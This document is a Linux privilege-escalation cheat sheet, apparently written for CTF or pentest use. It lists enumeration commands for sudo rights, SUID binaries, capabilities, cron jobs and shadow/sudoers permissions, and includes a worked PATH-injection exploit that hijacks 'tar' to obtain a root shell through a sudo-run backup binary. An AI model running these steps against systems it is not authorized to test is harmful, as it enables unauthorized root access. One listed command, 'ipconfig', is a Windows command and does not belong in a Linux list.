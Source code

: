 ## Check History:
```bash
history
```

## Check what you can run as SUDO:
```bash
sudo -l
```
## SUID binaries [GTFOBins](https://gtfobins.github.io/):
```bash
find / -perm u=s 2>/dev/null
find / -perm /4000 2>/dev/null
```

## Capabilities [GTFOBins](https://gtfobins.github.io/):
```bash
getcap -r / 2>/dev/null
```

## List open ports:
```bash
ss -tulp
```

## List active processes:
```bash
ps -aux
```

## Spy on processes:
```bash
pspy
```

## Look for cronjobs:
```bash
crontab -l

cat /etc/crontab

ls -l /etc/cron.d

ls -la /etc/cron.hourly
```

## Look for unusual files :
- .txt
- .db
- .yaml
- .log
- .conf
- .old
```bash
find . -name '*.txt' 2>/dev/null
```

## Check Kernel Version:
```bash
uname -a
cat /proc/version
cat /etc/os-release
```

## Check for Weak File Permissions:
```bash
ls -la /etc/passwd
ls -la /etc/shadow
ls -la /etc/sudoers
```

## Path injection:
```bash
# This command is runned as sudo from a binary /usr/bin/pandora_backup
tar -cvf /root/.backup/pandora-backup.tar.gz /var/www/pandora/pandora_console/*

#We can change the path for tar with a bash binary
echo "/bin/bash" > /var/tmp/tar
chmod +x /var/tmp/tar
export PATH=/var/tmp:$PATH
/usr/bin/pandora_backup
```
## Check if you are in a container:
- Environment variables
```bash
env
```
- Multiple interfaces:
```bash
ipconfig
```

## Check for Docker Privileges:
```bash
docker ps -a
groups
```

## Important files:
- /etc/passwd
- /etc/shadow
- maybe there are mails in /var/mail ...